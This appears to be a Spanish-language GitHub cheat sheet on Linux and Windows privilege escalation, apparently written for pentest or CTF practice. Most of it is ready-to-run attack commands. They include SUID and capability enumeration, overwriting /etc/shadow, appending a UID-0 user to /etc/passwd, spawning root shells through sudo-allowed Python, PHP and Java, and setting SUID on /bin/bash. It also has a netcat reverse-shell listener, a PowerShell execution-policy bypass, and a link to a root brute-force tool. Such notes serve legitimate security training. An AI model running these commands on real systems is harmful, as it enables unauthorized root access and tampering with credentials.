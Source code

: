 <h1 align="center">Escalada de privilegios</h1>

## **HERRAMIENTAS ÚTILES**

- **GTFOBins:** Un repositorio de técnicas de escalada de privilegios y ejecución de comandos utilizando binarios de Unix.

### **Comprobar Comandos Sudo**

- `sudo -l`

### **Buscar Contraseñas en Archivos de Configuración**

- `ls /var/www/html`
- Revistar archivos php y conf

### **Crontab**

Buscar en crontab archivos que se ejecuten como root y que podamos editar:

- `crontab -l`
- `ls /etc/cron\*`

**Enumerar Variables de Entorno**

El comando env muestra todas las variables de entorno de la shell. Podría incluir información sensible, como contraseñas:


### **Enumerar Información del Sistema**

Enumerar rutas interesantes:

- `ls -lsaht /opt | /tmp | /var/tmp | /var/backups | /var/mail | /dev/shm`

Enumerar información del sistema para encontrar posibles vulnerabilidades:

- `uname -a`
- `cat /etc/\*-release`
- `file /bin/bash`

### **Permisos SUID**

Buscar archivos con permisos SUID:

- `find / -perm /4000 2>/dev/null`

### **Buscar Archivos con Permisos de Escritura y lectura**

Buscar archivos y directorios que tienen permisos de escritura para todos los usuarios:

- `find / -not -type l -perm -o+w 2>/dev/null`

###

### **Modificar /etc/shadow**

Si tienes permisos de escritura en /etc/shadow, puedes generar una nueva contraseña para root:

- `openssl passwd -1 -salt abc password`

Reemplazar la entrada de root en /etc/shadow con la nueva contraseña.

### **Crear enlace simbólico**

Creando un enlace simbólico desde nuestro directorio de trabajo al de root:

- `ln -s /root rooter`

Y ahora desde mi equipo intento leerla:

- `curl <http://192.168.1.26:3333/jan/rooter/root.txt>`

### **Capabilities**

- `/usr/sbin/getcap -r / 2>/dev/null`

Este comando recorrerá todos los archivos del sistema y mostrará sus capacidades, si las tienen. Se pueden explotar desde GTFObins en capabilities copiando en comando

### **Ver archivos con Nmap**

- `nmap -iL \*ruta\*`

### **Ver si un archivo se esta ejecutando en el script de otro archivo (Tareas programadas)**

- `grep -nri “/tmp/message” / 2>dev/null`

Busca de forma recursiva si en /usr hay algun script que mencione el archivo “/tmp/message”

### **Script para fuerza bruta al usuario root**

<https://github.com/d4t4s3c/suForce>

##

## **EJEMPLOS DE ESCALADA**

### **Escalada con Python**

Si tienes permisos de escritura en el script, edítalo para incluir una línea que proporcione una bash con privilegios de root.

- `import os`
- `os.system(“/bin/sh”)`

Si no puedes editar el script, puedes eliminarlo y crear uno nuevo con el mismo nombre, ejemplo:

<https://romabri.github.io/Library>

###

### **Escalada con grep y cut**

Si dispones de permisos como root en grep y cut haciendo sudo -l, puedes ver archivos que sólo root puede ver

### **Escalada con Java**

Si tienes permisos de root en Java:

1. Crear un archivo revershell.java que contenga la reverse shell.
2. Ejecutarlo con java como sudo

- `sudo /usr/bin/java revershell.java`

1. Escuchar la conexión en la máquina local:

- `nc -lvnp &lt;puerto&gt;`

### **Escalada con PHP**

Si puedes ejecutar PHP como otro usuario usando sudo, ejecuta el siguiente comando para abrir una terminal con el usuario indicado.

- `sudo -u chocolate /usr/bin/php -r 'system("/bin/sh");`

![image](https://github.com/user-attachments/assets/29ead444-3a83-4584-ba0e-b824fe090d9e)


Si puedes ejecutar PHP como root, ejecuta el siguiente comando para conceder permisos SUID al bash. Cuando el bash se ejecute obtendrás una terminal con el usuario root

- `echo '&lt;?php exec("chmod 4755 /bin/bash"); ?&gt;' > /opt/script.php`

##

### **Escalada con chown**

- `LFILE=/etc/passwd`
- `sudo chown $(id -un):$(id -gn) $LFILE`
- `openssl passwd hola123`
- `echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd`
- `su newroot`


## **AUTOMATIZAR ESCALADA EN WINDOWS**

### **PSPY64**

Es una herramienta diseñada para monitorear procesos y detectar configuraciones incorrectas que podrían permitir la escalada de privilegios en sistemas Windows.

<https://github.com/DominicBreuker/pspy>

### **LOCAL_EXPLOIT_SUGGESTER (metasploit)**

![image](https://github.com/user-attachments/assets/5deee4e3-d5bc-4d19-a563-2b4783a783a3)

Seleccionamos uno de ellos, en este caso ms16_014_wmi_recv_notif, rellenamos los campos y establecemos la sesion meterpreter con altos privilegios


También existe esta misma herramienta en github que contiene el manual de uso:

<https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

### **PRIVESC CHECK**

Existe un script en PowerShell que enumera las credenciales de otros usuarios y posibles vías de escalada de privilegios.

Clonar repositorio:

<https://github.com/itm4n/PrivescCheck.git>

Transferir el repositorio clonado a la máquina Windows vulnerada y posicionarnos dentro de la carpeta clonada. Una vez ahí ejecutar el siguiente comando:

- `powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck"`

![image](https://github.com/user-attachments/assets/bfd3fdb0-ad3f-4423-afe3-306b1131bbd6)

## **AUTOMATIZAR ESCALADA EN LINUX**

### **LINPEAS**

Es una herramienta que busca en el sistema configuraciones incorrectas y vulnerabilidades que pueden permitir la escalada de privilegios.

<https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS>
